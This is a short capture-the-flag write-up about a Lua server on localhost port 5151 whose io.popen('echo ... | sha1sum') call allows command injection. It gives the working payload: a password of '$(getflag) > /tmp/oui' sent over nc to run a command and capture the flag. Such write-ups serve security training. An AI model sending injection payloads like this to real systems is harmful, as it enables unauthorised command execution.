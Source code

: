 `cat level11.lua` </br>
A server seems to be server set up on our localhost on port 5151. It will ask for a passord, will sends this password in a hash function, will apply a sha1sum on it, will return the 40 first characters of it, and will do a useless `if else` condition.

`prog = io.popen("echo "..pass.." | sha1sum", "r")` </br>
`The popen() function opens a process by creating a pipe, forking, and invoking the shell.`</br>
https://linux.die.net/man/3/popen</br>

popen is known for its vunerability to command injections, as it will execute code (see below). </br>
https://www.stigviewer.com/stig/application_security_and_development/2018-12-24/finding/V-70261

So io.popen starts a program in a separated process and returns a file handle that you can use to read data from this program or to write data to this program.

So the program level11.lua will execute `echo "..pass.." | sha1sum`. We saw in a previous level that echo with double quote will execute any command which is written like this `$(command)`.

So let's do: </br>
`nc loclhost 5151`</br>
`Password: $(getflag)`</br>
don't return the flag.

Maybe on a different file: </br>
`nc localhost 5151`</br>
`Password: $(getflag) > /tmp/oui`</br>
`cat /tmp/oui` gives us the flag.
